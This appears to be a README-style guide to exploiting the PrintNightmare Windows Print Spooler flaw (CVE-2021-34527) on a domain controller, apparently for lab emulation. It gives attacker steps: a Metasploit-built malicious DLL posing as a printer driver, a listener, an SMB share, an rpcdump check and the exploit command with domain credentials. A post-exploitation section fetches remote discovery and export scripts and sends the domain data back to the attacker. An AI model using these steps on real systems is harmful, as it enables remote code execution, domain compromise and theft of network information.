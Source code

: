 # PrintNightmare Windows Print Spooler Vulnerability (CVE2021-34527)
Ref: https://thedutchhacker.com/how-to-exploit-the-printnightmare-cve-2021-34527/

##Pre-exploitation

**Attacker**
1. Install Impacket and python script to exploit the vulnerability
2. Install metasploit (if you aren't using Kali), create a malicious dll as a faked printer driver and set up a listener on port 1443
4. Run SMB server service and modify the config file
5. Place the faked printer driver to the SMB path
6. Ensure the target is vulnerable to MS-RPRN (Print System Remote Protocol) by running
   rpcdump.py <username>:<password>:@<target IP addr> | grep MS-RPRN
7. Exploit the vulnerability to the target machine
   Download the python script: https://github.com/m8sec/CVE-2021-34527?tab=readme-ov-file
   
```console
   sudo python3 CVE-2021-34527.py -u <username> -p <password> -d <domain controller IP addr> -dll <path/path/to/maliciousdll> <domain IP addr>
```
**Target machine**
1. Ensure the Domain Controller is running the Print Spooler Service and is vulnerable by checking the service 
```Powershell
PS C:\Users\Administrator> get-service spooler
PS C:\Users\Administrator> start-service spooler
```
**e.g. replace <username> with a domain user account login credential

# Guides to emulate the vulnerability
Post-exploitation
Download 2 scripts to discovery local machine and domain group info, then send them back to attacker listener. 

```powershell
PS Invoke-WebRequest -Uri path/to/discovery.bat -o discovery.bat
PS Invoke-WebRequest -Uri path/to/export.bat -o export.bat
```

